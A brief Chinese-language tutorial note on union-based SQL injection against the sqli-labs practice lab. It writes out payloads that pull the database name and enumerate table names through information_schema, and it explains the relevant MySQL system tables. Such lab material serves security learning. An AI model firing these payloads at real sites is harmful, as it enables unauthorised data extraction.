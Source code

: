 

获取数据库名

```powershell
localhost/***/***/?id='-1' union select 1,2,database() %23
```

```powershell
select id,username,passwd from users where id='-1' union select 1,2,database() %23
# %23经过编码为#,在mysql中为注释符号
```



在已知数据库之后，通过MySQL系统表：information_schema可以用于获取数据库内所有表名和列名

在 SQL 注入中,我们重点关注的表有如下几个,因为主要的时候主要利用这几个表来获取数据:

- SCHEMATA: 提供了当前 MySQL 数据库中所有数据库的信息,其中 SCHEMA_NAME 字段保存了所有的数据库名 .show databases 的结果就是取自此表；
- TABLES: 提供了关于数据库中的表的信息,详细表述了某个表属于哪个 schema,表类型,表引擎,创建时间等信息,其中 table_name 字段保存了所有列名信息；
- COLUMNS: 提供了表中的列信息.详细表述了某张表的所有列以及每个列的信息,其中 column_name 保存了所有的字段信息。



下列为全部过程

```url
获取数据库名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,database() %23
记得使用错误id来获取我们所需要的数据。
```



```url
获取表名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="answers"; %23
```

![局部截取_20250503_160438](./img/局部截取_20250503_160438.png)
